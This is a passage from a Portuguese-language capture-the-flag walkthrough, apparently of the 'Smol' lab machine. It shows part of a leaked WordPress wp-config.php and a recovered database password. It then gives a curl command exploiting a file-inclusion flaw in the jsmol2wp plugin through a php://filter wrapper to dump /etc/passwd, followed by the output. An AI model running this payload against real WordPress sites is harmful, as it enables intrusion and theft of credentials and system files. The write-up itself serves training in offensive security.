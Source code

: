 ```bash
/**#@-*/

/**
 * WordPress database table prefix.
 *
 * You can have multiple installations in one database if you give each
 * a unique prefix. Only numbers, letters, and underscores please!
 */
$table_prefix = 'wp_';

/**
 * For developers: WordPress debugging mode.
 *
 * Change this to true to enable the display of notices during development.
 * It is strongly recommended that plugin and theme developers use WP_DEBUG
 * in their development environments.
 *
 * For information on other constants that can be used for debugging,
 * visit the documentation.
 *
 * @link https://wordpress.org/documentation/article/debugging-in-wordpress/
 */
define( 'WP_DEBUG', false );

/* Add any custom values between this line and the "stop editing" line. */



/* That's all, stop editing! Happy publishing. */

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
        define( 'ABSPATH', __DIR__ . '/' );
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';
base64: invalid input
                                                                             
┌──(kali㉿kali)-[~/smol]
└─$ 

```

Assim ficou mais fácil... consegui a senha do wpuser: kbLSF2Vop#lw3rjDZ629\*Z%G.

Agora, posso enumerar usuários, lendo o arquivo /etc/passwd.

```bash
┌──(kali㉿kali)-[~/smol]
└─$ curl -s "http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/convert.base64-encode/resource=../../../../../../../etc/passwd" | base64 -d
root:x:0:0:root:/root:/usr/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
```